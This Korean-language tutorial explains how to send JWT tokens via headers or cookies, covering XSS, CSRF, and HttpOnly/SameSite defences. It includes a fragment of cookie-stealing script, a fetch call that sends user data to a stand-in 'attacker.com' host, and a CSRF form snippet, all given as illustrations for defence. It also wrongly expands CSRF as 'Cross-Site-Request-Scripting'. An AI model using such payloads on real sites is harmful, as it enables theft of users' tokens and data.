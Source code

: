 인증 방식으로 JWT를 사용하기로 결정하였으면 JWT 토큰을 어떻게 주고받을지 생각해봐야한다. `Header Based` 방법과 `Cookie Based` 방법이 있으며 각 방법은 보안적인 관점에서 장단점이 존재합니다. 어떤 방식을 선택할지에 대한 근거는 보안 개념을 알아야 하므로 먼저 필요한 보안 개념을 알아보고 각각의 방식에 대해서 알아보겠습니다.


### XSS, CSRF, Cookie 옵션(HttpOnly, SameSite)

<Br>

`XSS(Cross-Site Scripting)`
<br>
스크립트를 이용한 해킹 기법으로 서비스 내에 존재하는 게시글 작성 같은 기능에서 발생할 수 있습니다.

예를 들면,
악성 유저 A가 게시글을 작성할 때, 게시글에 JS 악성 스크립트를 작성하고 다른 사용자들이 해당 게시글을 열람하게되면 악성 스크립트가 실행돼 해커에게 JWT 토큰이 나 사용자 정보가 전달 될 수 있습니다. 이는 사용자 입력에 대한 철저한 검증과 특수문자 인코딩같은 방법을 사용하여 막을 수 있고 쿠키에 JWT토큰을 담아서 사용하는 경우 쿠키 옵션에 HttpOnly=true를 통해 토큰 자체를 탈취하는 것을 방지할 수 있습니다. 

아래코드가 바로 악성 스크립트의 예시입니다. 자세히 살펴보면 document.cookie를 통해 자바스크립트 단에서 쿠키에 접근하는 것을 볼 수 있습니다.

```javascript
<script>
  var userCookie = document.cookie;
  fetch(...);
</script>
```

fetch()나 XMLHttpRequest를 사용한 스크립트라면, 서버의 사용자 정보 API(/user/info 등)에 요청을 보낼 때, 현재 해당 게시글을 보고 있는 사용자의 로그인된 쿠키를 포함하기 때문에, 서버가 정상적인 요청으로 처리하고 서버에서 반환한 응답(사용자 정보)을 fetch('https://attacker.com/log', { body: userInfo }) 같은 방식으로 공격자 서버에 넘기는 공격도 발생할 수 있습니다.

따라서 쿠키를 사용하여 토큰을 전달할 때 HttpOnly를 통해 JS단에서 쿠키 내용에 접근할 수 없도록 설정하고 유저 입력창 검증을 철저히 진행해 이런 XSS를 방어해야합니다.

<br>

`CSRF(Cross-Site-Request-Scripting)`<br>
CSRF는 실제 운영되는 A사이트에서 진행되는 공격이 아닌 해커가 운영중인 B사이트에서 공격이 진행됩니다.

예를 들어, 사용자가 A 사이트에 로그인 상태에서 특정 광고(B 사이트)를 눌렀을 때, 아래와 같은 스크립트를 실행시키는 공격기법입니다.
```javascript
<form action="https://example.com/money/transfer" method="POST">
``` 
 이는, A 사이트에 대한 쿠키를 바탕으로 자동으로 사용자의 의도와 상관없이 특정 행위를 발생시키는 것으로 쿠키에 SameSite=Lax,Strict 옵션을 통해 방어할 수 있습니다. 

외부 사이트에서 서비스 사이트의 쿠키를 바탕으로 게시글 삭제, 결제 등과 같은 기능들을 수행하는 것이 CSRF 공격의 대표적인 사례입니다.

하지만, GET 링크 이동 방식이나, 오래된 브라우저가 환경을 사용할 경우 쿠키의 옵션 SameSite 옵션만으로 CSRF를 방어할 수 없습니다. 

그 예시로는 다음과 같습니다.

```javascript
GET 요청 (링크 이동 등)

<a href="..."> 같은 링크 클릭으로 브라우저가 GET 요청을 보내는 경우,
혹은 <form method="GET"> 으로 폼을 제출하는 경우

링크 클릭 = “사용자에 의한 탑 레벨 네비게이션”으로 인식 → SameSite=Lax 모드에서도 쿠키 전송이 허용될 수 있습니다. (CSRF 위험)

CSRF와의 연관: “GET으로 상태 변경”을 하는 코드가 서비스에 작성되어 있다면, 
a href=".../delete?postId=123" 를 외부 사이트에서 유도해 “의도치 않은 삭제” 가능.
-> 삭제 API의 메서드가 GET으로 되어있을 경우 발생할 수 있습니다.

탑 레벨 네비게이션
-> 브라우저 윈도우/탭의 메인 페이지를 새로운 URL로 바꾸는 행동

사용자에 의한 것 
-> 사용자가 링크를 클릭하거나 주소창에 입력하는 식으로 직접 실행하는 경우
```
